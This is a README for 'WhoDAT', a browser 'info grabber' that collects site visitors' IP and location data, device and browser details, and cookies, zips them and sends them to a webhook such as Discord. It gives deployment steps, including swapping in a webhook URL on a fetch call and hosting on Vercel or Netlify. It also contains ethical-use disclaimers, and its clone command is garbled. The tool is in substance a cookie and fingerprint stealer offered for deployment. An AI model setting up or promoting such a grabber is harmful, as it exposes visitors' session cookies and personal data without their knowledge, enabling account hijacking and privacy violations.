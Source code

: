 # WhoDAT

This project is a lightweight browser-based information collector that gathers client-side data such as IP details, device specifications, browser metadata, and cookies. It packages the data into a ZIP file and sends it via a webhook.

> ⚠️ **Disclaimer:** This project is intended for **educational** and **ethical** use only. Do **not** deploy or use this script on websites without clear user consent. Violating privacy laws or terms of service can result in legal consequences.

---

## 🚀 Features

- 📡 **IP Information** — Uses `ipinfo.io` to gather public IP, ISP, location, and VPN detection.
- 💻 **Browser & Device Data** — Captures browser name, version, OS, user agent, device type, and screen resolution.
- 🍪 **Cookie Collection** — Retrieves browser cookies (if available).
- 📦 **ZIP Compression** — Organizes and compresses the collected data using `JSZip`.
- 📤 **Webhook Delivery** — Sends the ZIP file to a specified webhook (e.g., Discord).

---

## 📌 Technologies Used

- HTML5  
- JavaScript  
- [JSZip](https://stuk.github.io/jszip/)  
- [ipinfo.io](https://ipinfo.io/)  
- Fetch API

---

## ⚙️ Setup & Usage

### 1. Clone the Repository

```bash
[git clone https://github.com/yourusername/web-info-collector.git
cd web-info-collector](https://github.com/SavJas/WhoDatInfoGrabber.git)
```

### 2. Replace the Webhook

Open the HTML file and find this line:
```
fetch("webhook_url", {
```
Replace "webhook_url" with your actual webhook URL (such as a Discord webhook).


### 🚀 Deploy to the Web
You can host this project for free using platforms like Vercel or Netlify.

# ❗ Ethical Use Reminder

#### This tool is intended for:

- ✅ Penetration testing (with proper permission)

- ✅ Educational demonstrations

- ✅ Browser fingerprinting research

**Do not use this tool for malicious purposes or without clear, informed consent from users.**

### 📄 License
**This project is open-source under the MIT License.**
